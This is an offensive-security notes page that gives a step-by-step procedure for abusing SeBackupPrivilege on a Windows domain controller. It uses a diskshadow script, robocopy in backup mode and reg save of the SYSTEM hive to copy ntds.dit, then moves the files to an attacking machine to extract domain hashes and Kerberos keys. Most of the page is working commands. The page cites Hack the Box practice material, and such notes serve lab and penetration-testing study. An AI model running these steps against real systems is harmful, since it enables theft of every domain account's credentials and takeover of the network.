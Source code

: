 # Backing Up & Dumping `ntds.dit`

> With the right level of permission, a domain account with access to a domain controller can dump the `ntds.dit` file and parse it for the domain accounts' hashes and Kerberos keys offline.

---

## Required Privileges

The user must have the `SeBackupPrivilege` and the `SeRestorePrivilege` (default permissions of the `Backup Operators` AD group). Checkable via `whoami /priv` or `whoami /all`.

The user must also have access to the domain controller.

---

## Backing Up & Dumping  `ntds.dit`

Since `ntds.dit` is actively being used, it can't be copied. Use `diskshadow` to copy the entire drive to another drive, and then lift `ntds.dit` from that drive.

Write the commands to copy the drive into a text file on the target.

```powershell
$ cat tgihf.dsh
set context persistent nowriters
add volume c: alias tgihf
create
expose %tgihf% z:
```

`c:` can be replaced with the letter of the drive you want to copy
- `tgihf` can be replaced with any alphabetic alias
- `z:` can be replaced with any other drive letter

Execute the commands with `diskshadow`.

```powershell
$ diskshadow /s tgihf.dsh
```

Use `robocopy` to create a copy of `ntds.dit`.

```powershell
robocopy /b z:\windows\ntds . $OUTPUT_NTDS_FILE_PATH
```

To properly parse `ntds.dit`, you'll also need the `SYSTEM` registry file. Create a copy of it.

```powershell
reg save hklm\system $OUTPUT_SYSTEM_FILE_PATH
```

Transfer both files to the attacking machine.

[[secretsdump#Dump a local NTDS dit file requires SYSTEM registry hive file|Parse ntds.dit and dump the domain users' hashes and Kerberos keys.]]

---

## References

[Hacking Articles's Walkthrough](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/)

[Hack the Box's Blackfield](https://app.hackthebox.com/machines/Blackfield)

